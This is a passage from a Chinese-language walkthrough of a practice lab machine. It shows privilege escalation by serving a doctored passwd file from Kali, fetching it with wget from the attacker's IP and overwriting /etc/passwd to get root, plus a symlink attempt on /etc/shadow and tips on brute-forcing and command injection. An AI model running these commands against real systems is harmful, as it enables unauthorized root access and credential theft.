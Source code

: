 
kali开启http服务，让目标机下载修改后的 passwd 然后覆盖  /etc/passwd

```
┌──(root💀kali)-[~]
└─# python3 -m http.server 1911
```

```
bash-4.4$ wget http://192.168.0.102:1911/passwd
bash-4.4$ cp passwd /etc/passwd
```

```
bash-4.4$ su
su
id
uid=0(root) gid=0(root) groups=0(root)
```

<img src=".\图片\Snipaste_2022-12-02_13-55-47.png" alt="Snipaste_2022-12-02_13-55-47" style="zoom:80%;" />

### 总结：

注意改hosts上域名，然后子域名爆破、目录爆破，细心查看端口，可能不止一个web服务端口。这里的44441端口一样是Apache服务，还要对44441端口继续web上下文爆破。字典不好用时要换大的。

php反序列化漏洞一般是白盒审计，一般格式为JSON传输。本靶机容易硬刚ping的命令执行。

提权时，涉及到软连接。这里涉及一个细节，linux是优先从/etc/passwd读密码的，/etc/passwd里没密码用 'x'来占位才会进/etc/shadow。假如我们把/etc/passwd里密码置空或者换个密码，linux是不会在读/ect/shadow的。

有个问题，我这里对/etc/shadow 进行软连接后还是没权限读    

```
ln -s /etc/shadow /home/rocky/public_html/shadow

lrwxrwxrwx  1 apache apache   11 Dec  2 06:07 shadow -> /etc/shadow
```

```
----------   1 rocky apache    944 May 30  2021 shadow
----------.  1 root  root      814 May 29  2021 shadow-
```

